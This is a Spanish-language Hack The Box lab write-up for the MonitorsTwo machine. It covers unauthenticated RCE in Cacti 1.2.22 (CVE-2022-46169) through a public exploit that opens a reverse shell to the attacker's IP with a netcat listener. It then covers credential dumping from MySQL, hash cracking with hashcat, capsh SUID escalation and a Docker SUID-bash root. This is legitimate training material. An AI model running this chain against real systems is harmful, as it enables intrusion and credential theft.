```yaml
---
layout: single
title: MonitorsTwo - Machines - Hack The Box
excerpt: "MonitorsTwo es una máquina de dificultad fácil en la plataforma de HTB. Para acceder debemos explotar una vulnerabilidad en Cacti, accederemos a un contenedor en el que tendremos que elevar privilegios mediante un binario SUID, conseguiremos acceso a la máquina principal crackeando un hash obtenido mediante la enumeración de la base de datos MySQL. Para escalar privilegios en la máquina principal, encontraremos una vulnerabilidad en Docker en la cual podremos ejecutar comandos del contenedor en la máquina principal obteniendo así root gracias a la bash con permisos SUID.."
date: 2023-08-20
classes: wide
header:
  teaser: /assets/images/htb-machines-monitorstwo/monitorstwo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - cve-2022-46169
  - rce
  - hashcat
  - limpeas
  - gtfobins
  
---
```


![](/assets/images/htb-machines-monitorstwo/monitorstwo.png)

## 1. Enumeración 

Inicialmos con un escaneo de servicios y versiones hacia el objetivo.

•	nmap -sC -sV 10.10.11.211  	

El escaneo inicial de nmap muestra que hay dos puertos abiertos en la máquina

•	HTTP (80)

•	SSH (22)

![](/assets/images/htb-machines-monitorstwo/monitorstwo2.png)

Procedemos a navegar hacia el servicio web por el puerto 80.

![](/assets/images/htb-machines-monitorstwo/monitorstwo3.png)

Se identifica un servicio web para monitoreo llamado CACTI en su versión 1.2.22.

## 2. Explotación

Se verificó si la versión 1.2.22 de Cacti la cual es vulnerable y se encontró un exploit (CVE-2022-46169).

•	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git

![](/assets/images/htb-machines-monitorstwo/monitorstwo4.png)

Este exploit permite la ejecución remota de código no autenticado en la máquina.

Procedemos a copiar el repositorio a nuestra máquina.

•	git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git

![](/assets/images/htb-machines-monitorstwo/monitorstwo5.png)

Nos dirigimos donde se encuentra nuestro exploit escrito en Python.

![](/assets/images/htb-machines-monitorstwo/monitorstwo6.png)

En las especificaciones de uso, vemos que se necesita invocar el exploit, como parámetro pasamos -u es la URL del target, --LHOST nuestra IP y –LPORT el puerto de escucha de nuestra máquina. 

![](/assets/images/htb-machines-monitorstwo/monitorstwo7.png)

Adicionalmente debemos estar a la escucha con NETCAT del puerto que asignamos anteriormente 

•	nc -nlvp 443

![](/assets/images/htb-machines-monitorstwo/monitorstwo8.png)

Ejecutamos el explloit

•	python3 CVE-2022-46169.py  -u http://IP_TARGET --LHOST=MY_IP --LPORT=443

![](/assets/images/htb-machines-monitorstwo/monitorstwo9.png)

Vemos como obtenemos una Shell de la maquina victima como usuario www-data.

![](/assets/images/htb-machines-monitorstwo/monitorstwo10.png)

Miramos los permisos SUID.

•	ls -la

Encontrado entrypoint.sh en el directorio raíz.

![](/assets/images/htb-machines-monitorstwo/monitorstwo11.png)

Procedemos a leer el archivo.

•	cat /entrypoint.sh

Encontramos el nombre de usuario y la contraseña para MySQL.

![](/assets/images/htb-machines-monitorstwo/monitorstwo12.png)

Intentamos autenticarnos en MYSQL para comenzar a revisar el contenido de la BD.

•	mysql --host=db --user=root --password=root cacti -e "show table

![](/assets/images/htb-machines-monitorstwo/monitorstwo13.png)

Observamos la tabla user_auth.

•	user_auth puede tener credenciales.

![](/assets/images/htb-machines-monitorstwo/monitorstwo14.png)

Intentamos leer el contenido de la tabla.

•	mysql --host=db --user=root --password=root cacti -e "select * from user_auth

Se encontró una contraseña (hash) para el usuario Marcus.

![](/assets/images/htb-machines-monitorstwo/monitorstwo15.png)

Guardamos nuestro hash e intentar crakearlo con HASHCAT.

•	hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt  

![](/assets/images/htb-machines-monitorstwo/monitorstwo16.png)

Iniciamos sesión por SSH con las credenciales obtenidas y capturamos nuestra primera bandera como usuario estandar.

![](/assets/images/htb-machines-monitorstwo/monitorstwo17.png)

## 3. Escalación de Privilegios.

Descargamos Linpeas en la maquina victima para intentar encontrar una vía de explotación.

![](/assets/images/htb-machines-monitorstwo/monitorstwo18.png)

Otorgamos permisos de ejecución.

![](/assets/images/htb-machines-monitorstwo/monitorstwo19.png)

Encontramos estas dos rutas marcadas de color rojo. Nos dirigimos a la ruta /var/mail e intentamos leer el archivo marcus.

![](/assets/images/htb-machines-monitorstwo/monitorstwo20.png)

Encontramos que es un correo donde hablan de unas vulnerabilidades que encontraron. Una de ellas es una vulnerabilidad de Docker.

Debemos antes, encontrar la ruta de los contenedores mediante el comando findmnt.

![](/assets/images/htb-machines-monitorstwo/monitorstwo21.png)

En el contenedor debemos escalar privilegios.

Miramos los permisos SUID y encontramos el comando capsh.

Buscamos en GTFOBins y conseguimos root en el contenedor.

•	https://gtfobins.github.io/gtfobins/capsh/

![](/assets/images/htb-machines-monitorstwo/monitorstwo22.png)

En el contenedor, como root debemos poner la bash con permisos SUID.

![](/assets/images/htb-machines-monitorstwo/monitorstwo23.png)

En la máquina principal ejecutamos la bash del contenedor para convertirnos en root.

•	Ejecute “./bash -p” para obtener root en la máquina.

Posteriormente obtenemos nuestra flag de root.

![](/assets/images/htb-machines-monitorstwo/monitorstwo24.png)
